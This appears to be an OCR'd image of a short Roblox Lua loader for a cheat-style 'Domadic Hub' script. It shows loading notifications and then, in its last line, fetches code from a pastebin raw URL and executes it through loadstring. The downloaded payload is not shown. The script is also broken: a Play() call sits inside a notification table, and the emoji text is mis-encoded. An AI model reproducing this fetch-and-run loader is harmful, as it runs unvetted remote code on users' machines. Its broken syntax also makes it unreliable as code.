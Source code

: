 
local notification = Instance.new("Sound")
notification.Parent = game:GetService("SoundService")
notification.SoundId = "rbxassetid://9086208751"
notification.Volume = 10

game.StarterGui:SetCore("SendNotification", {
      Icon = "http://www.roblox.com/asset/?id=12523036534";
      Title = "Domadic Hub", 
      Text = "ðŸ”ƒLoading...ðŸ”ƒ";
})
wait(2)
game.StarterGui:SetCore("SendNotification", {
      Icon = "http://www.roblox.com/asset/?id=12523036534";
      Title = "Domadic Hub", 
      Text = "âœ…Completeâœ…";
notification:Play()
})
loadstring(Game:HttpGetAsync("https://pastebin.com/raw/mCskWPVp"))()
